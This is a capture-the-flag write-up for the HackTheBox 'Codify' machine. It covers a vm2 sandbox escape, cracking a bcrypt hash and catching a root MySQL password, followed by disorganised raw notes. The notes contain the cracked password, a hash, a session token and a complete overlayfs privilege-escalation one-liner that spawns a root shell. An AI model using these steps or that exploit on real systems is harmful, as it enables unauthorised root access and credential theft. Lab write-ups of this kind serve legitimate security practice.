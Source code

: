 # Information
- CTF Name: Codify
- CTF Level: Easy
- CTF Description: 
- Date: 4/4/2024
- Platform: HTB
- Category: #vm2 #mysql #

# Findings

## External
### Enumeration
- I did a simple nmap scan and got 3 ports open `22`,`80` and `3000`
![](https://i.imgur.com/Ka3D1EL.png)
- There is Same Website on both Port 80 and 3000, so let use the port 80.
- The website is a node.js Code editor and runner and it uses a library called `vm2` to sandbox the code runner from the system, this will prevent attacks from executing system command on the machine/server.
	- ![](https://i.imgur.com/jVtoEf3.png)
- The Problem is this site is using a vulnerable version of `vm2` the version is `3.9.16`
- ![](https://i.imgur.com/BUhr4iu.png)
- This Exploit will Escape some Restricted codes by the library 
	- child_process
	- fs
- I Started my `netcat` listener
	- ![](https://i.imgur.com/cjSLPAA.png)
- Then I Executed the vm2 exploit ![](https://i.imgur.com/2mN8qzj.png)
### Gaining Access 
- I Got access the the `svc` user. Hurray!!
- ![](https://i.imgur.com/yx2k48z.png)
- It is really Easy foothold took 5min i think
## Internal
### Enumeration
- I tried to check special folders and got a specials and i got the web hosted Directories inside `/var/www` i try to check all the files and i got the file called `tickets.db`. 
	- Good For us, this database file contains the username and password hash for the user `joshua`.
![](https://i.imgur.com/1NT3hgS.png)

### Gaining Access
- I Copied the hash and tried to crack it with john.
	- ![](https://i.imgur.com/Ryj5psw.png)
- Well Done, we got the password for the user `joshua`
- ![](https://i.imgur.com/GoLANVA.png)
- We are In to the User `joshua`!
- Then we got the `user.txt` flag.
### Maintaining Access
- On the 1st i tried to footprint the system and saw that the kernel version is old and i thought it can be exploited with dirtypipe and i spent some min on it, then i jumped to another findings.
- While Enumerating the new account files and folders, i got some eye catchy file `/opt/scripts/mysql-backup.sh`
```
#!/bin/bash                                                                                                                                                                                                                                   
DB_USER="root"                                           
DB_PASS=$(/usr/bin/cat /root/.creds)                         
BACKUP_DIR="/var/backups/mysql"                                
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS  

/usr/bin/echo  
if [[ $DB_PASS == $USER_PASS ]]; then  
        /usr/bin/echo "Password confirmed!"   
else                           
        /usr/bin/echo "Password confirmation failed!"     
        exit 1   
fi   


/usr/bin/mkdir -p "$BACKUP_DIR" 
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)") 

for db in $databases; do    
    /usr/bin/echo "Backing up database: $db"    
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"  
done 
```


- On this Code, is trying to fetch the DB_PASS from the root .creds file and passing it to the database  variable down on the code, so the thing i thought it, so.... if that happens there will be some process at the background so, if i started 2 ssh shells and i started a process viewer tools like pspy64 and run the script on the another screen i will get the password. so i tried that and guess what.. it worked!!!!!!
- 
	![](https://i.imgur.com/ZueySeO.png)
	- ![](https://i.imgur.com/1NPAhxa.png)
- Then I logged in to this user with `ssh root@codify.htb` and this password then boom. We got the root flag.
# Random Notes
- Codify uses sandboxing technology to run your code
- Whitelisted module
	- - url
	- crypto
	- util
	- events
	- assert
	- stream
	- path
	- os
	- zlib
- BlackListed
	- child_process
	- fs


- some exploit
	
- ![](https://i.imgur.com/2mN8qzj.png)

- ![](https://i.imgur.com/6RBogtk.png)
- `joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`
 -
![](https://i.imgur.com/fTqC6Q0.png)

- Sessions: `G3U9SHG29S872HA028DH278D9178D90A782GH`
![](https://i.imgur.com/KRxswW7.png)


/opt/scripts/mysql-backup.sh
mysql  Ver 8.0.35-0ubuntu0.22.04.1 for Linux on x86_64 ((Ubuntu))
/usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -p -e SHOW DATABASES;
/var/backups/mysql

/usr/bin/cat /root/.creds
Creds
josua : spongebob1

```bash fold
#!/bin/bash                                                                                                                                                                                                                                   
DB_USER="root"                                           
DB_PASS=$(/usr/bin/cat /root/.creds)                         
BACKUP_DIR="/var/backups/mysql"                                
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS  

/usr/bin/echo  
if [[ $DB_PASS == $USER_PASS ]]; then  
        /usr/bin/echo "Password confirmed!"   
else                           
        /usr/bin/echo "Password confirmation failed!"     
        exit 1   
fi   


/usr/bin/mkdir -p "$BACKUP_DIR" 
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)") 

for db in $databases; do    
    /usr/bin/echo "Backing up database: $db"    
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"  
done 
```

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'


/srv/.viminfo

mysql  Ver 8.0.35-0ubuntu0.22.04.1 for Linux on x86_64 ((Ubuntu))


kljh12k3jhaskjh12kjh3

![](https://i.imgur.com/bgNj742.png)
